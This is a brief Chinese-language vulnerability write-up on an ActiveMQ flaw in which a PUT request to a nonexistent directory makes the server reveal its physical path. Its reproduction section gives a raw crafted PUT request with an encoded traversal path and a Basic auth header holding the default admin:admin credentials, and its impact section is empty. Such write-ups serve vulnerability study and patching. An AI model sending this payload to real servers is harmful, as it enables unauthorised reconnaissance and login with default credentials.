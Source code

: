 # ActiveMQ 物理路径泄漏漏洞

> 原文：[http://book.iwonder.run/0day/ActiveMQ/2.html](http://book.iwonder.run/0day/ActiveMQ/2.html)

## 一、漏洞简介

ActiveMQ 默认开启 PUT 请求，当开启 PUT 时，构造好 Payload(即不存在的目录)，Response 会返回相应的物理路径信息

## 二、漏洞影响

## 三、复现过程

```
Request Raw:
PUT /fileserver/a../../%08/..%08/.%08/%08 HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4 
```

